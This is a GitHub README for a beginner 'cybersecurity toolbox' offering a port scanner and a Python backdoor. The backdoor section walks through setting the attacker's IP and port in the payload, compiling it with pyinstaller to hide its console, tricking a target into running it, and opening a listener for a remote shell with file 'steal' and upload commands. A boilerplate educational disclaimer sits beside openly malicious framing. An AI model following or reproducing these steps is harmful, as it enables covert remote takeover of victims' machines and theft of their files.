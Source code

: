 
# Kiddo Toolbox

A toolbox for the little ones in cybersecurity with simple UI and the set of all the basic features

## Disclaimer

The tools and software provided in this GitHub repository are intended for educational and research purposes only. The author of this repository does not condone or support any illegal activities, and the use of these tools for any malicious or unauthorized purposes is strictly prohibited.

The author does not take any responsibility for the misuse of these tools or any damage caused by their usage. It is the user's responsibility to ensure that they are using these tools in a legal and ethical manner, and to comply with all applicable laws and regulations.

By downloading and using the tools provided in this repository, you agree to use them at your own risk and accept full responsibility for any consequences that may result from their usage.

## Currently available tools

- Portscanner
- Backdoor

## Demo

- Portscanner
  
Select the single/multiple/range/subnet of targets, specify ports you're interested in, wait a sec and BOOM! You have'em all!

![portscanner demo](https://github.com/danyash17/kiddo_toolbox/blob/7c1dfdd0b433166e9f8a13cf4f1b738466a12177/project/demo/portscanner-demo.gif)

- Backdoor

Ever wanted to become a master of puppets? It's simple - just trick your target to execute a backdoor and gain a remote access to target machine!

![backdoor demo](project/demo/backdoor-demo.gif)


## Installation

- Portscanner
  
Nothing difficult - just clone and run.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
  python3 portscanner.py
```

- Backdoor
  
More difficult to set up. First, clone a repo.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
```

After that, it's crucial to configure your **host ip** and **listening port** in payload. Do not mess up - IP must be of type **string** and PORT of type **int**. I used Linux *nano* command down here, if you don't know what is it, just open **backdoor_payload.py** file in a notepad and write your **host ip** and **listening port** inside " " symbols, as in the example below.

```bash
  nano backdoor_payload.py
  ## IP = "192.168.0.100"
  ## PORT = 7777
```

So, the payload is configured. Now you need to transfer it to a target machine. You can simply put a python script *backdoor_payload.py* staight from this repo. Or, to do better, compile a binary executable to hide a console using *pyinstaller*.

```bash
  pyinstaller backdoor_payload.py --onefile --noconsole
```
After malicious delivery, be sure to run *backdoor_client.py* script to put up a listener. A payload will infinitely try to connect to client once it executed.

You see *shell* label in your console? Victory! You now have full access to a terminal of a target machine. In addition to standard bash commands this payload have 2 commands to download and upload files from/to target machine.

```bash
  shell~('192.168.0.100', 47890)steal <target_filename>
  shell~('192.168.0.100', 47890)upload <host_filename>
```

Feel free to explore it by yourself!
